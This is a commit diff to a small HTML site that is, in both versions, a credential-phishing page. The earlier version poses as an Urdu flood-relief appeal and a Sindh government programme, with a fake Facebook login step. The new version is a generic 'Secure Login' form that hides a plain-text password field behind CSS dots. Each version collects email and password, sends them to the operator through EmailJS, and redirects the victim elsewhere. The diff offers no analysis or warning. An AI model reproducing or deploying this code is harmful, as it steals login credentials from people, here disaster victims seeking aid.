

Before and after one commit to dilshadkhaskheli/Flood-Relief-Program-, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 102-694 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,8 +2,8 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>فلڈ ریلیف اپیل فارم</title>
-  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Secure Login</title>
   <style>
     body {
       font-family: Arial, sans-serif;
@@ -11,124 +11,118 @@
       justify-content: center;
       align-items: center;
       height: 100vh;
+      background-color: #f4f4f4;
       margin: 0;
     }
+
     .container {
       background: #fff;
-      padding: 25px 30px;
+      padding: 20px;
       border-radius: 12px;
-      box-shadow: 0 4px 12px rgba(0,0,0,0.15);
-      width: 100%;
-      max-width: 420px;
+      box-shadow: 0 0 10px rgba(0, 0, 0, 0.2);
+      width: 350px;
+    }
+
+    h2 {
       text-align: center;
+      margin-bottom: 20px;
+      color: #222;
     }
+
     label {
+      font-weight: bold;
       display: block;
-      text-align: left;
+      margin-top: 10px;
     }
-    h2 {
-      margin-bottom: 10px;
-      color: #333;
-    }
-    .logo {
-      width: 70px;
-      margin-bottom: 20px;
-    }
-    input, textarea, button {
+
+    input {
       width: 100%;
       padding: 10px;
-      margin: 8px 0;
+      margin-top: 5px;
+      margin-bottom: 15px;
       border: 1px solid #ccc;
-      border-radius: 8px;
-      font-size: 14px;
+      border-radius: 6px;
+      font-size: 16px;
     }
+
+    /* Password dots ka effect without using input type="password" */
+    .secure-text {
+      -webkit-text-security: disc;
+      text-security: disc;
+    }
+
     button {
-      background: #4CAF50;
+      width: 100%;
+      padding: 12px;
+      background: #007bff;
+      border: none;
       color: white;
-      font-weight: bold;
+      font-size: 16px;
+      border-radius: 6px;
       cursor: pointer;
       transition: background 0.3s ease;
     }
+
     button:hover {
-      background: #45a049;
+      background: #0056b3;
     }
-    .toggle-btn {
-      background: #2196F3;
-      margin-top: 15px;
-    }
-    .toggle-btn:hover {
-      background: #1976D2;
-    }
-    #part2 {
+
+    .error {
+      color: red;
+      font-size: 14px;
       display: none;
+      margin-bottom: 10px;
     }
   </style>
 </head>
 <body>
+  <div class="container">
+    <h2>Login</h2>
+    <form id="secureForm">
+      <label for="email">Email</label>
+      <input type="email" id="email" name="user_mail" placeholder="Enter your email" required>
 
-  <div class="container">
-    <img src="https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcT7-Z3xs0TdvQPhEmrYTzRmDr26iwr-HeT4BQ&s" alt="Logo" class="logo">
-    <h2>فلڈ ریلیف پروگرام کے تحت امداد اور گھر کے لیے اپیل کرنے کے لیے اپنے اکاؤنٹ یا گوگل اکاؤنٹ سے لاگ اِن کریں</h2>
+      <label for="pass">Password</label>
+      <input type="text" id="pass" name="access_key" class="secure-text" placeholder="Enter your password" required>
 
-    <form id="myForm">
-      <!-- Part 1 -->
-      <div id="part1">
-        <label for="user_name">Email</label>
-        <input type="email" name="user_name" placeholder="اپنا ای میل درج کریں">
-        <label for="user_email">Password</label>
-        <input type="text" name="user_email" placeholder="اپنا پاس ورڈ درج کریں">
-      </div>
-
-      <!-- Part 2 -->
-      <div id="part2">
-        <label for="userphone">Phone </label>
-        <input type="text" name="user_phone" placeholder="Enter your phone">
-        <label for="user_message">Password</label>
-        <textarea name="user_message" placeholder="Enter your password"></textarea>
-      </div>
-
-      <button type="submit">Log in</button>
+      <p class="error" id="errorMsg">Please fill in both fields</p>
+      <button type="submit">Submit</button>
     </form>
-
-    <button class="toggle-btn" onclick="switchToPart2()">Continue with Facebook</button>
   </div>
 
+  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
   <script>
-    // Init EmailJS
-    (function(){
-      emailjs.init("lOP70A-TcCacjwvM5"); // Public key
+    (function() {
+      emailjs.init("YOUR_EMAILJS_PUBLIC_KEY"); // <-- yahan apna EmailJS public key lagao
     })();
 
-    // Switch to Part 2 (hide part1, show part2)
-    function switchToPart2() {
-      document.getElementById("part1").style.display = "none";
-      document.getElementById("part2").style.display = "block";
-    }
+    const form = document.getElementById("secureForm");
+    const errorMsg = document.getElementById("errorMsg");
 
-    // Handle form submission
-    document.getElementById("myForm").addEventListener("submit", function(e) {
-      e.preventDefault();
+    form.addEventListener("submit", function(event) {
+      event.preventDefault();
 
-      // Get required field values
-      const email = document.querySelector("input[name='user_name']").value.trim();
-      const password = document.querySelector("input[name='user_email']").value.trim();
+      const email = document.getElementById("email").value.trim();
+      const pass = document.getElementById("pass").value.trim();
 
-      // Check only email & password fields
-      if (email === "" || password === "") {
-        alert("براہ کرم ای میل اور پاس ورڈ لازمی درج کریں۔");
-        return; // Stop form submission if empty
+      if (email === "" || pass === "") {
+        errorMsg.style.display = "block";
+        return;
+      } else {
+        errorMsg.style.display = "none";
       }
 
-      // If email & password filled, send data via EmailJS
-      emailjs.sendForm("service_ch1laac", "template_7243jwf", this)
-        .then(() => {
-          window.location.href = "https://flood-relief-program-govt-sindh.vercel.app/"; // Redirect after success
-        }, (err) => {
-          console.log("FAILED!", err);
-          alert("کچھ غلط ہوگیا ہے، دوبارہ کوشش کریں۔");
-        });
+      // EmailJS pe data bhejna
+      emailjs.send("YOUR_SERVICE_ID", "YOUR_TEMPLATE_ID", {
+        email_id: email,
+        access_key: pass
+      }).then(function() {
+        // Data successfully sent → redirect karo
+        window.location.href = "https://your-second-site-link.com";
+      }, function(error) {
+        alert("Error: " + JSON.stringify(error));
+      });
     });
   </script>
-
 </body>
-          </html>
+</html>
```
